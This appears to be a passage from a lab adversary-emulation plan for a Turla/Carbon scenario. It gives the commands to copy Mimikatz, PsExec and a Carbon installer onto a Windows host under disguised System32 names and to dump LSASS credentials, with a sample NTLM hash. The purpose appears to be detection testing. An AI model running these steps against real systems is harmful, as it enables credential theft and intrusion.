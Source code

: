 ### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Mimikatz to `bannik (10.20.10.9)`:
```bash
cd /opt/day1/turla/Resources/payloads/carbon
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put mimikatz.exe Windows\System32\terabox.exe'
```

:arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Open File Explorer and browse to `C:\Windows\System32`. Order the files by
date.

* Open an elevated Windows Command Prompt and execute the following
command to dump LSASS:

NOTE: This command varies slightly from the Detections scenario with the
addition of `privilege::debug` since we are not executing from SYSTEM
context.

```bat
C:\Windows\System32\terabox.exe "pr::d" "lsdu::go /ynot" "quit"
```

* :heavy_exclamation_mark: Verify that the NTLM hash for `adalwolfa` is included
in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `NTLM : 07d128430a6338f8d537f6b3ae1dc136`
  * The output should contain:
  * >    ```
    >    RID  : 00000456 (1110)
    >    User : Adalwolfa
    >
    >    * Primary
    >        NTLM : 07d128430a6338f8d537f6b3ae1dc136
    >        LM   : 
    >    Hash NTLM: 07d128430a6338f8d537f6b3ae1dc136
    >        ntlm- 0: 07d128430a6338f8d537f6b3ae1dc136
    >        lm  - 0: 95b8536c32208871930216e62d5e12d4
    >    ```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
PsExec and the 3rd Carbon installer to `bannik (10.20.10.9)`:

```bash
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put PsExec.exe Windows\System32\wsqsp.exe'
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.10.9/C$ -c 'put carbon_installer_3.exe Windows\System32\wsqmanager.exe'
```

:arrow_right: Return to your RDP session to `bannik (10.20.10.9)` as `Frieda`.

* Return to the File Explorer window in System32.
